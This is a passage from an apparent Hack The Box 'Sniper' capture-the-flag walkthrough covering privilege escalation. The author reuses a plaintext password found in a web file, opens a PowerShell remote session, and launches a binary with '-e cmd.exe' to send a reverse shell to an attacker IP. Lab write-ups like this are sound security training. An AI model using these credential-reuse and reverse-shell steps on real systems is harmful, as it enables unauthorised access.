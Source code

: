 There you have it.

## Privilege Escalation

During enumeration of the `iusr` account, I found the password of `Chris` in `C:\inetpub\wwwroot\user\db.php`. And guesss what, `Chris` is able to perform PowerShell Remoting.

<a class="image-popup">
![022b35d8.png](/assets/images/posts/sniper-htb-walkthrough/022b35d8.png)
</a>

Armed with the credentials of Chris, I can get myself a reverse shell as `Chris` and no surprise, the file `user.txt` in in `Chris`'s desktop.

### Getting `user.txt`

But how, I hear you asking. Well, like this.

```
> $pw = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
> $cred = New-Object System.Management.Automation.PSCredential("snipe\chris", $pw)
> Enter-PSSession -ComputerName SNIPER -Credential $cred
> Start-Process -FilePath "\windows\system32\spool\drivers\color\cute.exe" -ArgumentList "10.10.15.171 4321 -e cmd.exe" -NoNewWindow
```

<a class="image-popup">
![8bb702a1.png](/assets/images/posts/sniper-htb-walkthrough/8bb702a1.png)
</a>
